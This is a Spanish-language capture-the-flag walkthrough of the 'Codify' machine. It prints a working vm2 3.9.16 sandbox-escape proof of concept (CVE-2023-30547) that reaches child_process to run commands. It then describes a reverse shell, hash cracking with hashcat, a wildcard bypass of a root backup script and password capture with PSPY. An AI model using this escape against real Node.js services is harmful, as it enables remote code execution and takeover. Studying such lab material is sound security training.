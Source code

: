 #code-review #password-brute-force #hashcat #javascript-library #mysql #nodejs #pspy #vm2

![](../../../Imágenes/Codify.png)

Codify es una máquina que aloja un sitio web para revisar código Node.js en un servidor web. Podemos conseguir un punto de apoyo en el sistema objetivo mediante la explotación de una vulnerabilidad de una librería JavaScript que el sitio utiliza para la revisión de código. Una vez dentro debemos movernos lateralmente hacia otro usuario gracias al hallazgo de un hash ubicado dentro de un fichero en el sistema y realizando su desencriptado. Finalmente, debemos escalar privilegios realizando fuerza bruta sobre un script encontrado en el sistema o, también, usando la herramienta PSPY que nos permitirá capturar la contraseña del usuario root.

## Enumeración

### Nmap

El escaneo de puertos nos arroja la existencia de servicios como **SSH**, **HTTP** y un servicio **HTTP** alojado en el puerto 3000.

![](../../../Imágenes/Selection_001-1.png)

![](../../../Imágenes/Selection_002-1.png)

### HTTP 3000/TCP

El puerto 3000 nos aporta mucha curiosidad, por lo que nos dirigimos hacia él mediante el navegador. El sitio nos muestra un editor de código para testear código escrito en lenguaje Node.js:

![](../../../Imágenes/Pasted-image-20240404132135.png)

Si nos dirigimos a la sección «About us» podemos obtener más información sobre el sitio y entender mejor su funcionamiento. Asimismo podemos ver que el editor utiliza una librería de **JavaScript** llamada **vm2**.

![](../../../Imágenes/Pasted-image-20240404133457.png)

Si clicamos en el enlace, podemos comprobar que se está usando la versión **3.9.16**. Realizando una búsqueda por los motores de búsqueda podemos comprobar que existe una vulnerabilidad para esta versión registrada como **[CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)**:

![](../../../Imágenes/image%201.png)

Existe un **[proof of concept](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m)** de esta vulnerabilidad que nos sugiere el uso del siguiente código, el cual nos permite la ejecución de código arbitrario en el sistema objetivo:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo pwned');
}
`

console.log(vm.run(code));
```

Si volvemos al sitio web y probamos el código podemos comprobar que se muestra por pantalla la palabra pwned, por lo tanto, la ejecución de comandos se está realizando correctamente.

![](../../../Imágenes/Pasted-image-20240404133530.png)

## Usuario svc

Ahora es hora de introducir un payload para obtener una reverse shell:

![](../../../Imágenes/Selection_004-1.png)

Una vez obtenido la shell en el sistema objetivo y estabilizarla, nos encontramos con que somos el usuario svc y que existe un usuario llamado joshua el cual no podemos acceder a su directorio dentro del Home.

![](../../../Imágenes/Selection_005-1.png)

## Usuario joshua

Después de realizar una enumeración del sistema nos encontramos que existe un archivo llamado **tickets.db** dentro de la carpeta **/var/www**. Este archivo parece contener el nombre de joshua (el cual no tenemos acceso) y lo que parece ser un hash.

![](../../../Imágenes/Selection_006-1-wpp1712234308114.png)

Así que nos dirigimos a copiar el hash y tratar de desencriptarlo en nuestro host de ataque mediante el uso de **Hashcat**:

![](../../../Imágenes/Selection_007-1-wpp1712234291287.png)

![](../../../Imágenes/Selection_008-1-wpp1712299328674.png)

Por suerte, logramos desencriptar la contraseña, cambiar de usuario hacia joshua y leer la bandera user.txt.

![](../../../Imágenes/Selection_009-1-wpp1712234194943.png)

## Escalada de privilegios

Rápidamente, comprobamos comandos que el usuario puede ejecutar con permisos root y nos entramos con que puede ejecutar un script que aparentemente realiza una copia de seguridad de la base de datos **MYSQL**.

![](../../../Imágenes/Selection_011-1.png)

Realizando la revisión de código de este script nos encontramos con que en primer lugar se hace una comprobación de la contraseña ubicada en el directorio de root con la contraseña que introduzcamos al ejecutar el script y, a continuación, si la contraseña introducida es válida se procede a realizar la copia de seguridad usando la contraseña root.

![](../../../Imágenes/Selection_012-1.png)

Si iniciamos el script y probamos cualquier contraseña, nos devuelve un mensaje de fallo de contraseña y se paraliza la ejecución del script. Pero, si usamos el comodín «*» la lógica del script da por buena la contraseña y sigue con su ejecución.

![](../../../Imágenes/Selection_013-1.png)

En este momento tenemos dos opciones:

1. Desarrollar un script para realizar fuerza bruta sobre la contraseña.
2. Utilizar **PSPY** para capturar la contraseña durante la ejecución del script.

Nosotros optamos por utilizar **PSPY**. Así que subimos el binario **PSPY64** en la máquina víctima y lo ejecutamos.

![](../../../Imágenes/Selection_016-1.png)

A continuación, ejecutamos el script introduciendo el comodín:

![](../../../Imágenes/Selection_017-1.png)

¡Y conseguimos la contraseña!

![](../../../Imágenes/Selection_018-1-wpp1712234137194.png)

Ahora, tratamos de usar la contraseña filtrada gracias a **PSPY** intentando cambiar hacia el usuario root, y finalmente, ¡conseguimos la bandera root.txt!

![](../../../Imágenes/Selection_019-1-wpp1712234073978.png)

![](../../../Imágenes/Selection_010-1%201.png)
